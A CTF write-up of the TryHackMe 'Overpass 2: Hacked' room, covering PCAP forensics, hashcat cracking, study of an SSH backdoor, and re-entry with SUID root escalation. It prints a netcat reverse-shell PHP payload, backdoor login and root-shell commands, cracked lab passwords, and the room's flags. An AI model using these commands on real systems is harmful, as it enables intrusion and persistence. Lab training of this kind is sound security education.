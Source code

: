 # Overpass 2: Hacked

author:: Nathan Acks  
date:: 2021-12-14

* [TryHackMe: Overpass 2: Hacked](https://tryhackme.com/room/overpass2hacked)

The flags are structured to basically walk us through this room.

## Forensics: Analyze the PCAP

I’ve not actually used Wireshark outside of the TryHackMe: Wireshark 101 “room” (and a few short digressions in other rooms), so I’m honestly a little worried about my abilities here…

Filtering the PCAP file for HTTP requests reveals a single POST from 192.168.179.145 to http://192.168.170.159/development/upload.php. A subsequent request from 192.168.179.145 pulls the directory listing of /development/uploads/, and then GETs /development/uploads/payload.php. This suggests that 192.168.179.145 is the ”attacker” and 192.168.179.145 is the target system.

FLAG 1: What was the URL of the page they used to upload a reverse shell? — /development/

We can save off this POST request to get at the uploaded payload.php file, which turns out to have the contents:

```php
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```

FLAG 2: What payload did the attacker use to gain access? — `<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>`

This is popping a simple reverse shell through netcat that connects back to 192.168.170.145:4242, which would seem to confirm that this was the machine used by the attacker.

This means that penetration occurs when this file is requested in packet 27.

Looking at subsequent TCP packets, we can see what the attacker typed in the packets going from 192.168.170.145 → 192.168.170.159, and the responses in the packets going from 192.168.170.159 → 192.168.170.145. Requests/Responses coming through netcat use the TCP PSH flag, so we can filter by `tcp.port == 4242 and tcp.flags.push` to zoom in on this conversation.

The attacker eventually issues `su james` to elevate privileges  (packet 71), and a few packets down we can see `james`’s password.

FLAG 3: What password did the attacker use to privesc? — `whenevernoteartinstant`

In packet 112 the attacker cats /etc/shadow, and we get a full dump in packet 114. They then issue `git clone https://github.com/NinjaJc01/ssh-backdoor`, generate an SSH private key, and switch to the included `backdoor` binary, at which point we lose the thread.

FLAG 4: How did the attacker establish persistence? — https://github.com/NinjaJc01/ssh-backdoor

Returning to packet 114, we can use Copy > Copy Bytes as Printable Text to pull the contents of /etc/shadow (+ a little garbage).  After a little cleanup, we have 5 users with passwords (including `james`, which we know already).

We extract the hashes and then throw Hashcat at this using the suggested “fasttrack” wordlist.

```bash
hashcat -m 1800 \
        -O hashes.txt /usr/share/wordlists/fasttrack.txt
```

Four out of the five passwords turn out to be crackable:

```
paradox:secuirty3
szymex:abcd123
bee:secret12
muirland:1qaz2wsx
```

This ironically *doesn’t* include `james`!

FLAG 5: How many of the system passwords were crackable? — 4

## Research: Analyze the Code

It turns out that https://github.com/NinjaJc01/ssh-backdoor is a real thing, with the code itself living in https://github.com/NinjaJc01/ssh-backdoor/blob/master/main.go.

FLAG 6: What's the default hash for the backdoor? — `bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3`

FLAG 7: What's the hardcoded salt for the backdoor? — `1c362db832f3f864c8c2fe05f2002a05`

The hashPassword() function here takes the SHA-512 hash of the provided password + the salt. The default has is overridden using the `-a` flag. We can see that the attacker used this flag when the `backdoor` was called in packet 3479.

```bash
./backdoor -a 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
```

FLAG 8: What was the hash that the attacker used? — `6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed`

We can use Hashcat to again crack this.

```bash
hashcat \
	-m 1710 \
	-O 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05 \
	   ~/.local/share/red-team/wordlists/rockyou.txt
```

FLAG 9: What's the password? — `november16`

## Attack: Get Back In!

The last bit of this CTF uses a server, which for this run is at 10.10.114.161. Just visiting that page gives us our first flag.

FLAG 10: What message did the attacker leave as a heading when they defaced the website? — H4ck3d by CooctusClan

We’ll get back in using the backdoor that the attacker set up. From the backdoor code we know that the SSH server is running on port 2222, and there don’t seem to be any user checks. So…

```bash
env -u SSH_AUTH_SOCK -u SSH_AGENT_PID \
	ssh -p 2222 user@10.10.114.161
```

…lets us in as expected (with the password of `november16`).

The user flag is in /home/james/user.txt.

FLAG 11: What's the user flag? — `thm{d119b4fa8c497ddb0525f7ad200e6567}`

Unfortunately, none of the passwords we cracked earlier work anymore. After checking a couple of possible exploits to get around this, I decided just to see what SUID binaries were on the system (figuring that I’d check them against GTFOBins).

```bash
find / -type f -perm -u+s -exec ls -l "{}" \;
```

This turned up an unusual file — /home/james/.suid_bash.  Could this be… an SUID copy of Bash? Indeed it is!

```bash
/home/james/.suid_bash -p # Root shell!
```

The root flag is then in /root/root.txt.

FLAG 12: What's the root flag? — `thm{d53b2684f169360bb9606c333873144d}`

ELAPSED TIME: 1 h 43 min

## References

* [TryHackMe: Wireshark 101](tryhackme-wireshark-101.md)
* [Using “netcat”](netcat.md)
* [Using Hashcat](hashcat.md)
* [ssh-backdoor / main.go](https://github.com/NinjaJc01/ssh-backdoor/blob/master/main.go)
* [Exploiting Bash](exploiting-bash.md)
* [Exploiting ViM](exploiting-vim.md)
* [GTFOBins](https://gtfobins.github.io/)
